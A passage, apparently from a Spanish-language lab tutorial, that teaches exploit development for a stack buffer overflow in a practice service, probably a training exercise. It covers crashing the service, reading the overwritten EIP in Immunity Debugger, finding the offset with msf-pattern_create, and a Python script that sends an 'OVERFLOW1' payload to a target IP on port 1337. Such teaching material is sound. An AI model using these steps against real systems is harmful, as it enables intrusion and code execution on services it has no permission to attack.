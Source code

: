 Al parecer la conexión finalizo al enviar 2000 bytes, vamos a ver que paso en el Immunity Debugger

<img src="immunity-fuzz.png">

Como vemos el estado del programa paso de "Running" a "Paused", esto quiere decir que lo hemos crasheado, y tanto el valor del EIP y EBP cambio a "41414141"

## ¿Por qué tienen estos valores?

Bueno, como nosotros mandamos más bytes de los cuales el programa soporta, hemos empezado a sobrescribir los registros con la letra "A" y la letra "A" representada en hexadecimal es 0x41

# Control de EIP

Una vez tengamos la cantidad de bytes con la que el programa corrompe (en este caso 2000), vamos a hacer uso de la utilidad ```msf-pattern_create```, para así poder saber la cantidad exacta de bytes con la cual sobrescribimos el EIP.

Para poder saberlo ejecutaremos el siguiente comando.

<img src="pattern-create.png">

El output del comando es lo que vamos a enviar ahora.


```py
#/usr/bin/python3 

from pwn import *
import socket
import time

if len(sys.argv) < 2:
    print("\n[!] Uso: python3 " + sys.argv[0] + " <ip-address>\n")
    sys.exit(1)


# Variables globales
ipAddress = sys.argv[1]
rport = 1337 
timeout = 5
if __name__ == '__main__':

    buffer = "" # <- pattern_created result
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ipAddress, rport))
        data = s.recv(1024)
        prefijo = ("OVERFLOW1 %s" % buffer) # <- Funcion a enviar el payload
        s.send(bytes(prefijo, "latin-1"))
    except:
        print("[!] Error de conexion")
        sys.exit(1)

```
